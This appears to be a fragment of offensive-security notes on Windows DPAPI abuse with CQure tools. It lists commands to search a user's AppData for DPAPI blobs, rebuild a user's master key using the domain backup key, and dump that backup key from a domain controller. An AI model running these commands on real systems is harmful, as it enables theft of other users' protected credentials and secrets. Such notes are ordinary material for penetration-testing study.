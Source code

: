 - CQure
	- Search for DPAPI blob - note mkguid
		- `CQDPAPIBlobSearcher.exe /d C:\Users\chajoh\AppData\Roaming /r /o C:\Windows\Temp\Blob`
	- Re-build master key with arbitrary password using domain backup key
		- `CQMasterKeyAD.exe /file "C:\Users\chajoh\AppData\Roaming\Microsoft\Protect\<SID>\<mkguid>" /pfx backupKey.pfx /newhash <NTLM hash of arbitrary password>`
		- NOTE: CQMasterKeyAD.exe assumes the pfx file is packed with passphrase "cqure"; if it is not, repack it accordingly (see Mimikatz section)
	- Extract domain backup key from DC (requires Domain Admin)
		- `CQLsassSecretsDumper.exe /file backupKey.pfx`
		- Note: PFX is packed with passphrase "cqure"